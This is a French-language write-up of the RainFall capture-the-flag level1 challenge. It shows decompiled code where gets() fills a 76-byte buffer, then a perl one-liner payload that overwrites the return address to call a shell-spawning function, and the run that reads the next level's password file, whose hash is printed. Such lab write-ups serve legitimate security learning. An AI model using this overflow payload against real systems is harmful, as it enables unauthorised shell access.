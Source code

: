 Quand on lance le binaire `level`, peu importe le nombre d'argument, on se retrouve dans un prompt.
On peut prompt une valeur, puis le programme exit.

```sh
level1@RainFall:~$ ./level1 
salut
level1@RainFall:~$ ./level1 
423
level1@RainFall:~$ ./level1 test
ouais
level1@RainFall:~$
```

Cette fois ci, l'exécutable peut être décompilé ! Sur ghidra, on repère rapidement ce que l'on va devoir exploiter en voyant ces deux fonctions:
```c
void run(void)

{
  fwrite("Good... Wait what?\n",1,0x13,stdout);
  system("/bin/sh");
  return;
}



void main(void)

{
  char local_50 [76];
  
  gets(local_50);
  return;
}
```

En cherchant des infos sur la fonction `gets`, on trouve très vite des articles qui parlent des problèmes de `gets` avec notamment des buffer overflow. Considérant qu'on a un buffer de 76 charactères qui est déclaré sur la ligne d'au dessus, on comprend vite quelle faille on va devoir exploiter

Après avoir lu [ce très bon article](<https://oxasploits.com/posts/simple-buffer-overflow-exploitation-walkthrough-gdb/>) sur les buffer overflow, on peut commencer à concevoir notre exploit

Notre buffer a une taille de 76 char, on doit donc utiliser un offset de 76 puis envoyer l'adresse de la fonction `run` pour lui faire exécuter le shell

On commence par lancer le binaire avec gdb et utiliser la commande `lay prev`, puis, on scroll un peu plus haut et on trouve l'adresse de la fonction `run`: `0x8048444`

On convertir l'adresse en byte pour la mettre dans le payload en utilisant une [hex escape sequence](<https://www.ibm.com/docs/en/xl-c-and-cpp-aix/16.1?topic=details-hexadecimal-escape-sequence>), ce qui donne `\x44\x84\x04\x08`

On a désormais tout ce qu'il faut pour fabriquer notre payload, on va utiliser ce script perl pour le générer et l'envoyer dans un fichier:
```sh
echo $(perl -e 'print "A"x76 . "\x44\x84\x04\x08";') > /tmp/payload
```

Le script va donc créer une chaine de 76 `A` suivie de l'adresse de la fonction `run` dans le programme

Ensuite, on a plus qu'a faire lire le payload à l'input de notre programme, et on se retrouve dans le shell:
```sh
level1@RainFall:~$ cat /tmp/payload - | ./level1 
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

Le `-` dans la commande `cat` sert à faire en sorte que le programme n'exit pas directement au lancement, voir <https://unix.stackexchange.com/questions/203012/why-cant-i-open-a-shell-from-a-pipelined-process>
